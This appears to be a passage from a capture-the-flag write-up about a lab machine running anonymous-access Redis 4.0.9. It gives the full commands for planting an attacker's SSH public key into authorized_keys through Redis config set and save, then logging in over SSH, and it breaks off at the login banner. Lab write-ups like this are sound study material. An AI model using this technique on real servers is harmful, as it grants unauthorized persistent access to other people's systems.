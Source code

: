 
---

{% endhighlight %}


## 2. Summary

1. Port 22: OpenSSH running
2. Port 80: HTTP website running with Apache
3. Port 6379: Redis 4.0.9 running (anonymous access allowed)
4. Port 10000: Webmin httpd running

## 3. Getting User

Since we have access to redis, we can enumerate the file system with the following way.<br>
As you can see, if we set a non-existing directory, it shows "No such file or directory".
{% highlight shell %}
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
10.10.10.160:6379> config set dir /var/lib/redis/non-exist-directory
(error) ERR Changing directory: No such file or directory
{% endhighlight %}

This time, we can find a directory for ssh in the home directory of redis user.
{% highlight shell %}
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> 
{% endhighlight %}

Next, try to upload a public key for SSH.<br>
{% highlight shell %}
root@kali:~# (echo -e "\n\n"; cat .ssh/id_rsa.pub; echo -e "\n\n") > pubkey.txt
{% endhighlight %}
{% highlight shell %}
root@kali:~# cat pubkey.txt | redis-cli -h 10.10.10.160 -x set pubkey
OK
{% endhighlight %}

After that, save the key into the "/var/lib/redis/.ssh/authorized_keys".
{% highlight shell %}
root@kali:~# redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
{% endhighlight %}

Now we can SSH into the server as an user redis.<br>
However, we don't have the "user.txt" in the home directory of redis user.
{% highlight shell %}
root@kali:~# ssh redis@10.10.10.160
The authenticity of host '10.10.10.160 (10.10.10.160)' can't be established.
ECDSA key fingerprint is SHA256:kea9iwskZTAT66U8yNRQiTa6t35LX8p0jOpTfvgeCh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.160' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

